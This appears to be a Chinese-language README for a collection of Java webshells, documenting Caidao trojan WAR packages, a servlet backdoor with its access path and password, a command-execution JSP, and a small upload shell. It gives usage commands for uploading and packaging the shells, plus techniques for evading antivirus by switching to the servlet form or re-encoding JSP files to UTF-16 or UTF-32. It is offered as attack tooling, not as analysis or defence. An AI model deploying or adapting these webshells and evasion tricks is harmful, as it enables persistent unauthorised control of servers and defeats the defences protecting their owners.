 
# java 相关webshell

## oneword.war

菜刀木马war包，部署后，访问/oneword/one.jsp，密码为：alpha

## Caidao.java

菜刀木马servlet版本源码

## oneserv.war

菜刀木马Caidao.java的war包，servlet版本，使用java8编译Caidao.java，部署后访问/oneserv/one，密码为：alpha

**servlet版本**可有效绕过某些客户端杀毒软件

> 该版本在一些容器里有兼容性问题

## cmd.jsp

linux命令执行

    c=command

windows命令执行加额外参数w=

    c=command&w=

## upfile_small.jsp

上传文件小马，使用方法(httpie命令，curl类似)

    http -f http://127.0.0.1:8000/test/a.jsp @oneserv.war f==aaa.war

---

# war打包

jsp webshell放入shellframe目录，切换到shellframe目录下执行命令

    jar cvf shell.war *.jsp WEB-INF

生成shell.war木马

---

# bypass方式

使用servlet版本的木马能够绕过一些安全软件

更改编码jsp文件编码方式可以绕过一些安全软件，例如 utf-16、utf-16be、utf-32

*使用pen.py file命令进行文件编码转换，例如：*

    pen.py file shell.jsp -c --dfile shell-utf16-bom.jsp --dtype utf-16le-bom

